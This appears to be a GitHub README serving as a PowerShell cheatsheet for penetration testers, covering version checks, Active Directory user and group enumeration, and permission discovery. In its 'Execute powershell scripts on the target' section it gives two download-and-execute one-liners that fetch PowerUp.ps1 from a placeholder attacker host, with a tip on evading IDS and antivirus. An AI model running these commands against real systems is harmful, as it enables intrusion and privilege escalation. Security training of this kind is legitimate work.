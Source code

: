# Powershell Cheatsheet - For RT / PT
## Information about this repository
Q: What is this cheatsheet supposed to be?

This is going to be my powershell cheatsheet (probably won't be the best but I hope you can take a few things from here)

Q: Who is this made for?

Made for red teamers / penetration testers / blue teamers ( / sysadmins if you really feel like it)

Q: Which versions of powershell will this be supporting?

From powershell v2 onwards (even though I will be putting things that are not supported in powershell v2).

The obligatory `please do not use this cheatsheet for any illegal or malicious activities.`

## Useful commands
### Enumeration

This will be a place for enumeration commands.

#### Checking powershell version different methods:
##### Registry
```Powershell
(Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine -Name 'PowerShellVersion').PowerShellVersio
```
##### $host Variable
```Powershell
$host.Version
```
##### Get-Host
```Powershell
(Get-Host).Version
```
##### $PSVersionTable Variable
```Powershell
$PSVersionTable.PSVersion
```

### User information
##### Get list of all AD Users
```Powershell
Get-ADUser -filter * | Select -Property SamAccountName
```

##### Get list of groups for every AD user
```Powershell
foreach ($user in (Get-ADUser -Filter * | Select -ExpandProperty SamAccountName)) { Write-Host $user "{"((Get-ADPrincipalGroupMembership $user | Select -Expand Name) -join ', ' ) "}`n" }
```

### Password / Hidden data

This will be a place for finding passwords or hidden data.

### Read / Writable files

This is going to assist you in detecting faulty permissions.
##### Get all directories with ownership
```Powershell
foreach ($file in (Get-ChildItem -Directory -Path "C:\Users" -Recurse -Force -ErrorAction SilentlyContinue)) { Get-Acl $file.FullName | Where-Object -Property Owner -eq ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name) | Select -ExpandProperty Path | Convert-Path}
```
##### Short explanation: We are looping over each directory and file with Get-ChildItem, then extracting the ACLs from the file / directory and checking if the owner is the current user account with `[System.Security.Principal.WindowsIdentity]::GetCurrent().Name`, the rest is just for prettifying and expanding.


### Execute powershell scripts on the target
##### Download from share
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('//<attacker_ip>/share/PowerUp.ps1')
```

##### Download from http server 
```Powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://<attacker_ip>:8090/PowerUp.ps1')
```
##### Note: For encrypted communication and bypassing any IDS or antiviruses you could use https:// instead. 

### Misc.
#### Error handling 
```Powershell
$ErrorActionPreference = "SilentlyContinue" # / "Stop" / "Inquire" / "Continue" (Default) / "Suspend"
```
#### Test if 32-bit system or 64-bit
```Powershell
[Environment]::Is64BitOperatingSystem
```

## Sources
- https://github.com/specterops/at-ps (Amazing course, very recommended)
- The interwebz
- My personal journey
- https://adamtheautomator.com/check-powershell-version/
- https://www.gngrninja.com/script-ninja/2016/6/5/powershell-getting-started-part-11-error-handling
